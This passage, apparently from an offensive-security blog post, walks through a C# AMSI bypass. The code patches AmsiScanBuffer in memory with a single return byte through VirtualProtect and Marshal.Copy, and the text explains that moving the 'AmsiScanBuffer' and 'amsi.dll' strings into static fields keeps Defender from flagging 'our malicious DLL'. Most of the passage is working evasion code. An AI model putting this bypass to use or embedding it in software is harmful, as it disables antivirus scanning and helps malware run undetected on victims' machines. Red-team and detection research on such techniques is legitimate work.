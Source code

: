 ```c#
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
```

Now, at this time, we do indeed look pretty similar to the Rasta patch - however, we don't need to check whether the system is 64bit or 32bit as we use the single byte patch. So this bypass only requires the single function to operate correctly (not exactly an optimisation, but I guess it makes the deployable DLL a few bytes smaller - win? Probably not). At this moment, the code above won't do anything. Infact, it probably won't even compile... so now let's look at the different ways of using the "AmsiScanBuffer" patch without flagging our malicious DLL in Defender. Remember, Defender and AMSI do NOT like the string value so we want to "hide" it whilst on disk.

### 1) Move the strings out of the function

Yup... as the title says, moving the strings out of the function seems to work. I didn't dive it too much, but I am guessing Defender only scans various parts of DLL files, which seems weird but apparently making these strings a static class variable instead of a local variable and then using them is fine. This is something I need to look into more, but right now, I have what I need. If anyone knows more about this and can enlighten me, that would be great :)

```c#
using System;
using System.Runtime.InteropServices;

public class Amsi
{
    static byte[] patchBytes = new byte[] { 0xC3 };

    static string tLib = "amsi.dll";
    static string tProc = "AmsiScanBuffer";

    public static void Bypass()
    {
        try
        {
            var lib = Win32.LoadLibrary(tLib);
            var addr = Win32.GetProcAddress(lib, tProc);

            uint oldProtect;
            Win32.VirtualProtect(addr, (UIntPtr)patchBytes.Length, 0x40, out oldProtect);

            Marshal.Copy(patchBytes, 0, addr, patchBytes.Length);
        }
        catch (Exception e)
        {
            Console.WriteLine(" [x] {0}", e.Message);
            Console.WriteLine(" [x] {0}", e.InnerException);
        }
    }
}

class Win32
{
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
```